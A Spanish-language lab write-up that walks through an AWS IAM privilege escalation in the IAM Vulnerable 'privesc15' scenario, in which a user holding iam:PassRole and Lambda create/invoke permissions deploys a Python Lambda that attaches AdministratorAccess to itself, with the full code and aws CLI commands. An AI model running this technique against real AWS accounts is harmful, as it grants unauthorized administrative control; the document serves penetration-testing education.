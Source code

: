 # PassExistingRoleToNewLambdaThenInvoke

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio IAM vulnerable con el escenario privesc15

{% embed url="https://bishopfox.com/blog/privilege-escalation-in-aws" %}
Lab: IAM - Vulnerable | Escenario: privesc15
{% endembed %}

Un atacante con los permisos <mark style="color:green;">iam:PassRole</mark> , <mark style="color:green;">lambda:CreateFunction</mark> y <mark style="color:green;">lambda:InvokeFunction</mark> puede escalar privilegios pasando un rol de IAM existente a una nueva función de Lambda que incluye código para importar la biblioteca de AWS relevante para el lenguaje de programación de su elección, y luego usándola para realizar las acciones de su elección. Para este ejercicio se simulará que es una auditoria post autenticación (habiendo obtenido las credenciales por algún otro medio previo).

### Configuración Inicial

Usuario del laboratorio: privesc15-PassExistingRoleToNewLambdaThenInvoke-user

La cuenta de AWS debe contener un rol existente que incluya el permiso iam:AttachUserPolicy y las funciones lambda deben poder asumir este rol.

{% code title="assumeRolePolicy.json" overflow="wrap" %}
```json
{
     "Version": "2012-10-17",
     "Statement": [
         {
            "Sid": "VisualEditor0",
             "Effect": "Allow",
             "Action": "iam:AttachUserPolicy",
             "Resource": "arn:aws:iam::*:user/*"
         }
     ]
}
```
{% endcode %}

Luego las políticas asociadas al usuario deben ser las siguientes:

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption><p>Permisos mínimos para escalar privilegios </p></figcaption></figure>

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil.



### Explotación

#### Paso 1

En este laboratorio, se tiene que iniciar utilizando el permiso <mark style="color:green;">**lambda:Createfunction**</mark> para crear una función lambda maliciosa en Python que tendrá el código para adjuntar una política de altos privilegios al usuario inicial _privesc15_.

<pre class="language-python" data-title="code.py" data-overflow="wrap"><code class="lang-python">import boto3

def lambda_handler(event, context):
    # crea un cliente de IAM usando la biblioteca Boto3
    client = boto3.client('iam')
    
    # adjunta la política "AdministratorAccess" al usuario 
<strong>    response = client.attach_user_policy(UserName='privesc15-PassExistingRoleToNewLambdaThenInvoke-user',
</strong><strong>    PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
</strong>    
    # devuelve la respuesta de la API de IAM de AWS
    return response

</code></pre>

Para subir el archivo con el permiso <mark style="color:green;">**lambda:Createfunction**</mark> es necesario comprimir el archivo en formato zip con el nombre <mark style="color:green;">**function.zip**</mark>, después ejecutar el siguiente comando:

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>aws lambda create-function --function-name privesc --runtime python3.6 --role arn:aws:iam::037572360634:role/privesc-high-role-Lambda --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-2 --profile privesc15
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

#### Paso 2

Llamar la función maliciosa aprovechando el privilegio de <mark style="color:green;">**lambda:InvokeFunction**</mark> para invocar dicha función y que finalmente el usuario inicial adquiera el rol de administrador.

{% code overflow="wrap" %}
```bash
aws lambda invoke --function-name privesc output.txt --region us-east-2 --profile privesc15
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

Con estos pasos ya se habrá ejecutado la escalación de privilegios, se puede observar con el siguiente comando:

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>







